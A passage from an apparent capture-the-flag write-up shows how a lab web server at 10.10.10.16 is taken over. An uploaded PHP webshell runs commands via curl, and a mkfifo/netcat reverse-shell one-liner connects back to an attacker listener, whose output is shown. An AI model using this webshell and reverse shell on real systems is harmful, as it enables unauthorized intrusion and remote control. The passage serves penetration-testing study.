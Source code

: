 ![](/img/1552133537262.png)

### Webshell

The link on the left gives the public url of
`http://10.10.10.16/storage/app/media/cmd.php5`, which I can visit with
a `?cmd=id` at the end to prove execution:



    root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

I can go to full shell with:



    root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.16.
    Ncat: Connection from 10.10.10.16:40712.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


